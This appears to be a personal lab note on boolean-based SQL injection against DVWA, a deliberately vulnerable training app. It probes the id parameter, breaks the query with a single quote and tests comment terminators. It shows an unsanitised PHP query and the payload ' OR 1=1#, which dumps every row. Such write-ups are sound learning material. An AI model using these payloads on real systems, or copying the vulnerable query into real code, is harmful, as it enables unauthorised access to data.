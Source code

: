 # 02 - Craft Exploit

Search Tag: #sql-injection #boolean-based #dvwa

## 2.1 -   Retrieving Hidden Data

### 2.1.1 - Exploring The Parameter

#### 2.1.1.1 - Exceed The Upper and Lower Boundary Limits

We will try to determine the range of the data resides in the database to find the limits by exceeding the boundary range.

```
id=0
id=1
id=2
id=3
id=4
id=5
id=6
```

- The start of the valid responses.

![[01 - Valid Response Input Parameter Boundary Limits.png]]

- Until reaching the end of the data of what is available in the database.

![[02 - Invalid Response Input Parameter Boundary Limits Exceeded.png]]

#### 2.1.1.2 - Mathematical Expression

This will provide an indicator if the numeric values perform mathematical operation. A probable factor of SQL injection however nothing works.

```
id=6-1
id=6-2
id=5+1
id=2*2
id=6/3
```

#### 2.1.1.3 - Invalidate Values

This will provide a clear space to perform data collection when exploiting the parameter.

- Exceeding the boundary limits.

```
id=99
id=-1
```

- Changing the numeric datatype to decimal.

```
id=1.0
id=1.5
```

- Using strings.

```
id=a
id=abcdef
```

- Using SQL logical operators `OR`, `AND`, `XOR`, `NOT`

```
id=1 AND 1=1
id=1 AND 1=2
```

### 2.1.2 - Vulnerability Detection

#### 2.1.2.1 - Break the Query

We will trigger a SQL error using `'` as a prefix to take advantage of unsantized user input.

![[03 - Break Query.png]]

#### 2.1.2.2 - Copying the Error Statement

First we breakdown the process step by step to figure it out how join the query to craft our final payload.

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
```

- Understand from the developer's perspective.

```
				   ''1'''    at line 1 (SO THIS IS THE ERROR)
```

- Separate the single quotes.

```
(DELETE LEFTHANDSIDE SINGLE QUOTE) ' '1' ' ' (DELETE RIGHTHAND SIDE SINGLE QUOTE)

                                     '1' ' ' (DELETE RIGHTHAND SIDE SINGLE QUOTE)

                                     '1''
```

- Once you deleted the rest of the quotes.

```
                                     '1''    (AFTER ELIMATING THE REST WE HAVE THE REMAINING)
```

- Highlight the single quote from the right hand side of the quotes.

```
                                     '1(')'  (MARKING THE SINGLE QUOTE WITH PARENTHESES, WHICH IS BREAKING THE SQL BACKEND)
```

- Let's imagine the vulnerable PHP code snippet from the webserver backend processes it.

```php
$sql = "SELECT first_name, last_name FROM users WHERE id = '$id'";
```

- We include a single quote as a prefix which causes the error. So we need to escape it by commenting it out with a suffix.

```sql
SELECT first_name, last_name FROM users WHERE id = '1'';
```

#### 2.1.2.3 - Joining the Query

^a3394c

Now we need a suffix to terminate to get results. In MySQL we will terminate it with comments (`--`)  as a suffix. It will treat the rest of the snippets by interpreting it as SQL. We can leverage this craft the payload to exploit further.

`'--`

![[04 - Join Query with Double Dashes.png]]

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```

Looks like it didn't work. Let's instead try adding the `#` as a suffix.

`'#`

![[05 - Query Joined via Hashtag.png]]

![[06 - Query Joined via Hashtag Valid Response.png]]

It responds normally. We can use this to exploit it. Before that let's try adding another variant to comment it out with `-- -`.

`'-- -`

![[07 - Query Joined via Triple Dashes with Whitespace.png]]

![[08 - Query Joined via Triple Dashes with Whitespace Valid Response.png]]

Excellent now we can move on.

### 2.1.3 - Craft Payload

This is the syntax with a place holder of SQL payload.

`'<SQL_Payload>#`

### 2.1.4 - Exploit

^5404cb

- Let's retrieve the hidden data.

`' OR 1=1#`

![[09 - Boolean-Based Query Payload.png]]

![[10 - Boolean-Based Response Returned Full Data.png]]

- You can switch to different SQL logical operators `OR`, `AND`, `XOR`, `NOT`. Experiment this on your own depending on web application you're up against.

These techniques are possible due to the references I found online. I strongly recommend you to read them one by one because some SQL statement error responses may differ.

---
## References

- [[In-Band SQL Queries|Helpers: In-Band SQL Queries]]

- [Web Application Pentesting – Manual SQL Injection With Error Based String Method](https://gbhackers.com/manual-sql-injection/)

- [How to Perform Manual SQL Injection While Pentesting With Single Quote Error-Based Parenthesis Method](https://gbhackers.com/manual-sql-injection-2/)

- [How to Perform Manual SQL Injection With Double Quotes Error-Based String Method](https://gbhackers.com/perform-manual-sql-injection-2/)

- [Web Application Pentesting with Manual SQL Injection – Integer Based](https://gbhackers.com/perform-manual-sql-injection/)

- [Best approach to Error-Based SQL injection](https://medium.com/@anekantsinghai/best-approach-to-error-based-sql-injection-30c73fd8fa41)